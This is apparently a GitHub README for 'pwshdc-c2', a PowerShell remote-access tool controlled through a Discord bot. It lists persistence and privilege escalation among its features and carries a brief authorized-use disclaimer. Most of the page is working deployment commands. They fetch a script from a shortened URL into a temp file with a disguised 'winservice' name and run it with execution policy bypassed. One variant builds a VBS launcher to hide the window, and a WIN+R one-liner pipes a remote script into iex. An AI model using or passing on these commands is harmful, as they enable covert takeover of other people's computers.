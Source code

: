 # pwshdc-c2
A PowerShell Discord bot for remote command execution, in development

**Disclaimer**: This project should be used for authorized testing and educational purposes only.

## Features
- **Multiple Connections at the same time**
- **Execute PowerShell commands remotely**
- **File upload/download**
- **Add/Remove Persistence**
- **Privilege escalation**

## Usage
In cmd or powershell
```powershell
.\pwshdc.ps1 -tk 'bot-token' 'channel-id-from-server'
```

Or in a multi-step process for WIN+R execution, don't forget to change 'YOUR-TOKEN' and 'CHANNEL-ID'

```powershell
powershell -NoP -Ep Bypass -Command "iwr -UseBasicParsing https://is.gd/zVzeNh -OutFile $env:TEMP\winservice.ps1; powershell -NoP -Ep Bypass -File $env:TEMP\winservice.ps1 -tk 'YOUR-TOKEN' -cid 'CHANNEL-ID'"
```

Temporary alternative for hidden shell window:

```powershell
$psScriptPath = Join-Path $env:TEMP 'winservice.ps1'; $vbsLauncherPath = Join-Path $env:TEMP 'winmanager.vbs'; $psScriptUrl = 'https://is.gd/zVzeNh'; $tkParam = 'YOUR-TOKEN'; $cidParam = 'CHANNEL-ID'; try { iwr -Uri $psScriptUrl -OutFile $psScriptPath -UseBasicParsing } catch { exit 1 }; $vbsCommand = "powershell.exe -NoP -Ep Bypass -File ""$($psScriptPath.Replace('""','""""'))"" -tk ""$tkParam"" -cid ""$cidParam"""; $vbsContent = "Set objShell = CreateObject(""WScript.Shell""): objShell.Run ""$($vbsCommand.Replace('""','""""'))"", 0, False: Set objShell = Nothing"; try { $vbsContent | Out-File -FilePath $vbsLauncherPath -Encoding ASCII -Force } catch { exit 1 }; Start-Process wscript.exe -ArgumentList """$vbsLauncherPath""" -NoNewWindow;
```

Put the one of the Scripts from above in (https://raw-paste.vercel.app/), copy raw file link. Then paste the link into https://is.gd/ to make it shorter.

Then put this into WIN+R: 
```powershell
powershell -nop -ep bypass -W H -c "iwr https://YOUR-SHORTEN-LINK/ | iex"
```
